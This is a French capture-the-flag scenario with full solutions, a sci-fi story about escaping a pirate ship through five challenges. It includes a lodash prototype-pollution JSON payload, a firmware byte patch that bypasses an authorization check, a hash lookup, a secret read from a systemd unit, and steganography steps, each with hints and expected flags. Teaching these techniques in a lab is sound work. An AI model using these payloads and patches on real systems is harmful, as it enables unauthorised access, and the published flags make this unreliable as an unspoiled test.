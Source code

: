== Scénario science-fiction : Fuite de l'Acheron <scénario-3>
Dans ce scénario, le joueur incarne un hacker capturé par des pirates de l’espace. Il devra résoudre une série de défis pour pouvoir s'échapper du vaisseau spatial Acheron. Le scénario est inspiré de récits de science-fiction et de jeux vidéo, où les joueurs doivent utiliser leur ingéniosité pour surmonter des obstacles technologiques.

Le premier défi consiste à déverrouiller la porte de sa cellule en retrouvant le mot de passe d'origine à partir d'un hash SHA-1 stocké dans le système de sécurité. Ensuite, il doit exploiter une vulnérabilité de type prototype pollution dans un portail web pour obtenir un accès technicien et débloquer le sas du couloir principal. Le joueur devra également patcher le firmware d'un droïde de maintenance pour neutraliser sa fonction de détection et pouvoir passer sans être repéré. Puis, en utilisant un shell restreint, il devra explorer le système pour récupérer une clé de déverrouillage cachée dans un fichier de service systemd et ouvrir le sas principal du hangar. Enfin, il devra utiliser des techniques de stéganographie pour extraire une phrase secrète dissimulée dans les bits de poids faible d'une image des plans de la navette, permettant ainsi de démarrer les moteurs et de s'échapper.

"L’Acheron est un transport spatial pirate opérant dans la Ceinture de Kuiper. Son équipage t’a enlevé parce qu’ils connaissent ta réputation : ils veulent que tu craques le noyau de sécurité d’OrbitalBank, la banque décentralisée qui garde les coffres-forts crypto de la Fédération. Plutôt que de collaborer, tu décides d'essayer de te sauver. Le seul moyen de quitter l’Acheron est une navette de secours verrouillée au pont C. Pour l’atteindre, tu dois d’abord ouvrir chaque compartiment en détournant les systèmes du vaisseau."

*Challenges à réaliser*

#table(
  columns: (auto, 1fr, 1fr, 2fr),

  table.header(
    [*Etape*],
    [*Nom du challenge*],
    [*Compétence travaillée*],
    [*Description du challenge*],
  ),

  [1], [#link(<ch3-1>)[HashLock]], [Cryptographie], [Analyse du hash SHA-1 trouvé dans `hatch.cfg`, utilisation d’une rainbow-table pour révéler le code.],
  [2], [#link(<ch3-2>)[Portail Tech]], [Exploitation Web], [Prototype-pollution : injecter `__proto__:{"role":"tech"}` dans le JSON `POST /api/door` afin que l'API donne le token et ouvre le sas du couloir.],
  [3], [#link(<ch3-3>)[Drone Patch]], [Reverse Engineering], [Dans `drn_guard.bin` localiser la chaîne FRIENDLY_UID, remplacer le bloc pour neutralise le droïde sentinelle.],
  [4], [#link(<ch3-4>)[Service Secret]], [Enum système / Forensic], [Avec le shell `tech_guest`, lire `/etc/systemd/system/hangar-door.service` et récupérer `ROOT_KEY` pour déverrouiller le sas principal du hangar.],
  [5], [#link(<ch3-5>)[Plan Secret]], [Stéganographie], [Extraction, avec zsteg, de la charge cachée en LSB dans `shuttle_blueprint.png` pour obtenir la pass-phrase.],
)

=== _HashLock : Cryptographie_ <ch3-1>
Le joueur découvre un boîtier de sécurité sur la porte de sa cellule. Il contient un fichier `hatch.cfg` avec un hash SHA-1. Le but est de retrouver le code d’origine pour déverrouiller la porte.
```ini
unlock_hash = 54b8bc82e430c3bd7a4b52f3c2537ef84c046c07
```

+ Ouvrir la console fournie  et lire hatch.cfg.	Isoler la valeur du hash.
+ Reconnaître qu’un digest de 40 hex qui est SHA-1.
+ Soumettre le hash à une base comme Hashes.com ou CrackStation.com.

*Outils nécessaires* : Navigateur et site de recherche de hash.

*Indices graduels*
- Indice 1 : Le hash fait 40 hexa, ce qui correspond à SHA-1. 
- Indice 2 : Essaie une rainbow table en ligne.
- Indice 3 : Les pirates adorent nommer leurs codes d’après les constellations, pense à un mot spatial + nombre .

*Flag attendu* : `Orion88`


=== _Portail Tech :	Exploitation Web_ <ch3-2>
Le joueur doit accéder au sas du couloir principal, qui est contrôlé par un portail React. Le front-end envoie une requête POST à l’API `http://172.30.0.5:8080/api/door` pour valider le badge du joueur.
Pour valider le badge, le front-end React envoie :
```http
POST /api/door
Content-Type: application/json

{
  "ship_id": 9724,
  "payload": {}
}
```
Le back-end Node.js assemble ensuite :
```js
const cfg = _.merge(
  { role: "guest" },        
  req.body.payload        
);
if (cfg.role === "tech") openDoor();
```
Comme il utilise `lodash.merge` sans vérification, il est vulnérable à la prototype pollution.
En injectant la clé spéciale `__proto__`, le joueur redéfinit la propriété `role` dans l’objet hérité, le sas pense alors que tu es technicien et s’ouvre.

+ Intercepter la requête `POST /api/door`.
+ Rejouer la requête (avec Burp Repeater ou l’onglet Edit and Resend) en remplaçant le JSON par :
  ```json
{
  "ship_id": 9724,
  "payload": {
    "__proto__": { "role": "tech" }
  }
}
```
+ Valider : la réponse renvoie
  ```json
{ 
  "access": "tech",
  "status": "door unlocked",
  "unlock_token": "ACRN-42F9-TEK" 
}
```

*Outils nécessaires* : Navigateur et DevTools.

*Indices graduels*
- Indice 1 : Le code front-end inclut lodash, cherche où `_.merge` est appelé avec `req.body.payload`.
- Indice 2 : Dans JavaScript, la clé magique `__proto__` peut injecter des propriétés dans tous les objets créés ensuite.
- Indice 3 : Si tu ajoutes `__proto__: {"role":"tech"}` dans payload, la condition `cfg.role === "tech"` devient vraie. 

*Flag attendu* : `ACRN-42F9-TEK`


=== _Drone Patch : Reverse Engineering_ <ch3-3>
Le joueur doit maintenant passer le droïde de maintenance qui garde le pont C. Le droïde est contrôlé par un firmware `drn_guard.bin` qui ne laisse passer que les badges dont l'UID est marqué comme "friendly". Par chance, les développeurs ont laissé la chaîne ASCII `FRIENDLY_UID` dans le binaire, juste avant la fonction de comparaison d'UID. En localisant cette chaîne et en remplaçant la comparaison qui suit par un retour 0, le joueur peut rendre le droïde aveugle à tous les badges, lui permettant ainsi de passer jusqu'au pont C sans être détecté.

+ Ouvrir `drn_guard.bin` dans Ghidra.
+ Rechercher la constante ASCII FRIENDLY_UID.
+ Dans l’éditeur d’octets, remplacer `cmp r0, #0xF00D ; bne` `par movs r0,#0 ; bx lr`.
+ Enregistrer le binaire et le relancer.

*Outils nécessaires* : Ghidra, éditeur hexadécimal intégré.

*Indices graduels*
- Indice 1 : Dans Ghidra, liste les Strings et repère FRIENDLY_UID, la zone de code associée suit juste derrière. .
- Indice 2 : Modifie ce test pour qu'il n'échoue jamais `cmp r0,#0xF00D ; bne` `: 0xF00D` est l’UID ami.
- Indice 3 : Remplace les octets par `01 20 70 47` (`movs r0,#0 + bx lr`), ça permet à la fonction de retourner toujours OK.

*Flag attendu* : `KPR-7B9C`
Ce jeton servira ensuite de mot de passe pour le terminal du sas dans le défi 4.

=== _Service Secret: Enum système / Forensic_ <ch3-4>
Le joueur doit maintenant ouvrir le sas principal du hangar C pour accéder à la navette de secours. Le sas est contrôlé par une unité systemd nommée `hangar-door.service`. En se connectant avec le jeton récupéré lors du défi précédent, le joueur obtient un shell restreint `tech_guest`. Les développeurs ont commis l'erreur de laisser le fichier de service lisible par tous, avec la clé de déverrouillage stockée en clair dans la section Environment. Il suffit donc d'afficher le contenu du fichier de service pour récupérer la clé et commander l'ouverture du sas.

+ Lister les unités systemd `systemctl list-unit-files | grep hangar`.
+ Afficher le fichier d’unité `cat /etc/systemd/system/hangar-door.service`.
+ Repérer la variable sensible :
  ```ini
  [Service]
  Environment=ROOT_KEY=HGR-42F9A8
  ExecStart=/usr/local/bin/doorctl --token ${ROOT_KEY}
  ```

*Outils nécessaires* : Shell bash.

*Indices graduels*
- Indice 1 : `systemctl list-unit-files` montre tous les services déclarés.
- Indice 2 : Les fichiers `.service` se trouvent dans `/etc/systemd/system/`.
- Indice 3 : Dans la section `[Service]`, surveille la directive `Environment=` : le mot de passe commence par `HGR-` et comporte 6 caractères hex après le tiret.

*Flag attendu* : `HGR-42F9A8`

=== _Plan Secret : Stéganographie_ <ch3-5>
Enfin, pour faire décoller la navette de secours, le joueur doit entrer une pass-phrase secrète. Les ingénieurs ont caché cette phrase dans les plans techniques de la navette, stockés dans un fichier image `shuttle_blueprint.png`. Le fichier a un poids inhabituel (14 Mo), ce qui laisse penser qu'il contient des données cachées. En utilisant zsteg, le joueur peut extraire les bits de poids faible (LSB) pour révéler la phrase secrète.

+ Lancer zsteg `shuttle_blueprint.png`.
+ Extraire la couche `lsb-rgb,b1`. puis fichier `payload.txt`.
+ Ouvrir le fichier qui contient la phrase secrète.

*Outils nécessaires* : Ninwalk / steghide / zsteg  et éditeur texte.

*Indices graduels*
- Indice 1 : Le PNG pèse 14 Mo, ce qui est trop lourd pour un plan 2D.
- Indice 2 : Zsteg indique un canal `b1, rgb` non vide, c’est souvent là que le texte est stocké. 
- Indice 3 : Le mot-clé final finit par 42. 

*Flag attendu* : `FREEFLY-42`

Le joueur entre la phrase dans la console de la navette. Les moteurs s’allument, et la porte du hangar s’ouvre. Il peut enfin s’échapper de l’Acheron grâce à la navette de secours avec un dernier message : "Mission accomplie ! Tu as réussi à t’échapper de l’Acheron et à éviter les pirates. Les données sensibles sont en sécurité, et tu as prouvé ta valeur en tant que hacker."

